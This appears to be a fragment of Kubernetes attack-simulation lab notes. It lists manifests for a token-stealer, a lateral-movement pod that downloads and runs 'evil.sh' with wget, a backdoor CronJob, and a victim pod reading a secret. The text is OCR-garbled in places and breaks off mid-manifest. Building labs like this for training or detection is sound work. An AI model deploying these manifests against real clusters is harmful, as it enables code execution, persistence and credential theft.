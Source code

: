 			- Deploy token-stealer.yaml
				sudo kubectl apply -f token-stealer.yaml
		
		
		
		- Deploy Lateral-movement.yaml
			apiVersion: v1
			kind: Pod
			metadata:
			  name: lateral-move
			spec:
			  containers:
			  - name: lateral
				image: busybox
				command:
				  - /bin/sh
				  - -c
				  - |
					wget http://internal-service:8080/evil.sh -O /tmp/evil.sh;
					sh /tmp/evil.sh
			  restartPolicy: Never
			 
		- Setup persistence-cronjob.yaml
			apiVersion: batch/v1
			kind: CronJob
			metadata:
			  name: backdoor-shell
			spec:
			  schedule: "/2    "
			  jobTemplate:
				spec:
				  template:
					spec:
					  containers:
					  - name: job
						image: busybox
						command:
						  - /bin/sh
						  - -c
						  - "echo Running backdoor job; sleep 30"
					  restartPolicy: OnFailure
					  
		
		
		- Setup secrets-victim.yaml
			apiVersion: v1
			kind: Secret
			metadata:
			  name: db-secret
			type: Opaque
			data:
			  password: c3VwZXJzZWNyZXQ=  base64 of 'supersecret'
			---
			apiVersion: v1
			kind: Pod
			metadata:
			  name: victim-app
			spec:
			  containers:
			  - name: app
				image: alpine
				command: ["sh", "-c", "sleep 3600"]
				env:
				- name: DB_PASSWORD
				  valueFrom:
					secretKeyRef: